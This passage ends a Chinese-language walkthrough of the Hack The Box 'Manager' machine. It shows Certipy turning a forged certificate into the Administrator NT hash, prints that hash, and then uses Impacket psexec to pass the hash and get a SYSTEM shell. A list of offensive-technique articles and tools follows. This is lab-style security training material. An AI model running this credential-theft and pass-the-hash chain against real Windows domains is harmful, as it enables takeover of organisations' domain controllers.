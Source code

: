 第五步：使用证书进行认证，拿到 `Administrator` 账户的 NT hash

```bash
kali@kali[~]$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain manager.htb -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

现在我们有 Administrator 账户的NT hash了，可以使用 `psexec` 通过PTH连接到受害机器

```bash
kali@kali[~]$ impacket-psexec 'administrator@manager.htb' -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on manager.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vDevPpBd.exe
[*] Opening SVCManager on manager.htb.....
[*] Creating service IlSN on manager.htb.....
[*] Starting service IlSN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

---
## 参考链接
1. 文章：使用Guest账户访问SMB
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#list-shared-folders
2. 文章：RID爆破
   https://www.thehacker.recipes/ad/recon/ms-rpc#rid-cycling
3. 文章：ADCS ESC7攻击
   https://www.thehacker.recipes/ad/movement/adcs/access-controls#esc7-abusing-subca
4. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
5. 工具：Impacket
   https://github.com/fortra/impacket
6. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
7. 工具：RustScan
   https://github.com/RustScan/RustScan
8. 工具：Responder
   https://github.com/SpiderLabs/Responder
9. 工具：Certipy
   https://github.com/ly4k/Certipy

